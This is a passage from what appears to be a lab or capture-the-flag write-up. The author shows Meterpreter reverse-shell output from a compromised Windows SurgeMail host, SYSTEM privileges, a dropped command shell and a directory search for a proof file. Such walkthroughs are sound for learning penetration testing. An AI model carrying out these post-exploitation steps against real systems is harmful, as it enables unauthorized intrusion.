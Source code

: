 and the meterpreter session kicked in :

```
[*] Please wait while we load the module tree...
[*] Started reverse handler on port 4444
[*] Starting the payload handler...
[*] Sending stage (725504 bytes)
[*] Meterpreter session 1 opened (192.168.6.114:4444 -> 192.168.6.70:49604)
```

w00t.  Game over ? – Maybe…  What are my privileges ?

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

Software Loopback Interface 1
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:50:56:bc:1c:69
IP Address  : 192.168.6.70
Netmask     : 255.255.255.0


meterpreter > shell
Process 3656 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\surgemail\scripts>
```

Yeah – game over. That’s good enough for me.  Let’s see if we can find the file.

> Usually, offsec will plant a “proof” .txt file on the Desktop of the administrator of the machine.  But since I already had a shell, I decided to just list all txt files and see if I could see a file that looks as if it’s a proof file.

I issued a “dir *.txt /S” and evaluated the output, and I found (as expected) the proof file on the desktop of the administrator.

I then used the shell to grab the secret file from the system :

```
c:\surgemail\scripts>cd /
cd /

c:\>cd users
cd users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0CDF-A146

 Directory of c:\Users

05/04/2010  12:10 AM              .
05/04/2010  12:10 AM              ..
05/03/2010  11:05 PM              Administrator
05/04/2010  12:06 AM              devil
```